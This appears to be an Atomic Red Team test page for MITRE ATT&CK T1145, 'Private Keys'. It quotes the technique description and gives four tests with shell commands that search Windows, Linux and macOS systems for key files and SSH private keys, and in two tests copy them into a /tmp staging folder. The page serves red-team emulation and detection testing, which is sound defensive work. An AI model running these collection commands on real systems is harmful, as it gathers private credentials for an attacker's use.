 # T1145 - Private Keys
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1145)
<blockquote>Private cryptographic keys and certificates are used for authentication, encryption/decryption, and digital signatures. (Citation: Wikipedia Public Key Crypto)

Adversaries may gather private keys from compromised systems for use in authenticating to [Remote Services](https://attack.mitre.org/techniques/T1021) like SSH or for use in decrypting other collected files such as email. Common key and certificate file extensions include: .key, .pgp, .gpg, .ppk., .p12, .pem, .pfx, .cer, .p7b, .asc. Adversaries may also look in common key directories, such as <code>~/.ssh</code> for SSH keys on * nix-based systems or <code>C:\Users\(username)\.ssh\</code> on Windows.

Private keys should require a password or passphrase for operation, so an adversary may also use [Input Capture](https://attack.mitre.org/techniques/T1056) for keylogging or attempt to [Brute Force](https://attack.mitre.org/techniques/T1110) the passphrase off-line.

Adversary tools have been discovered that search compromised systems for file extensions relating to cryptographic keys and certificates. (Citation: Kaspersky Careto) (Citation: Palo Alto Prince of Persia)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Private Keys](#atomic-test-1---private-keys)

- [Atomic Test #2 - Discover Private SSH Keys](#atomic-test-2---discover-private-ssh-keys)

- [Atomic Test #3 - Copy Private SSH Keys with CP](#atomic-test-3---copy-private-ssh-keys-with-cp)

- [Atomic Test #4 - Copy Private SSH Keys with rsync](#atomic-test-4---copy-private-ssh-keys-with-rsync)


<br/>

## Atomic Test #1 - Private Keys
Find private keys on the Windows file system.
File extensions include: .key, .pgp, .gpg, .ppk., .p12, .pem, pfx, .cer, .p7b, .asc

**Supported Platforms:** Windows



#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
echo "ATOMICREDTEAM" > %windir%\cert.key
dir c:\ /b /s .key | findstr /e .key
```

#### Cleanup Commands:
```
del c:\Windows\cert.key >nul 2>&1
```





<br/>
<br/>

## Atomic Test #2 - Discover Private SSH Keys
Discover private SSH keys on a macOS or Linux system.

**Supported Platforms:** macOS, Linux


#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| output_file | Output file containing locations of SSH key files | path | /tmp/keyfile_locations.txt|


#### Attack Commands: Run with `sh`! 


```sh
find / -name id_rsa >> #{output_file}
find / -name id_dsa >> #{output_file}
```






<br/>
<br/>

## Atomic Test #3 - Copy Private SSH Keys with CP
Copy private SSH keys on a Linux system to a staging folder using the `cp` command.

**Supported Platforms:** Linux


#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| output_folder | Output folder containing copies of SSH private key files | path | /tmp/art-staging|


#### Attack Commands: Run with `sh`! 


```sh
mkdir #{output_folder}
find / -name id_rsa -exec cp --parents {} #{output_folder} \;
find / -name id_dsa -exec cp --parents {} #{output_folder} \;
```






<br/>
<br/>

## Atomic Test #4 - Copy Private SSH Keys with rsync
Copy private SSH keys on a Linux or macOS system to a staging folder using the `rsync` command.

**Supported Platforms:** macOS, Linux


#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| output_folder | Output folder containing copies of SSH private key files | path | /tmp/art-staging|


#### Attack Commands: Run with `sh`! 


```sh
mkdir #{output_folder}
find / -name id_rsa -exec rsync -R {} #{output_folder} \;
find / -name id_dsa -exec rsync -R {} #{output_folder} \;
```






<br/>
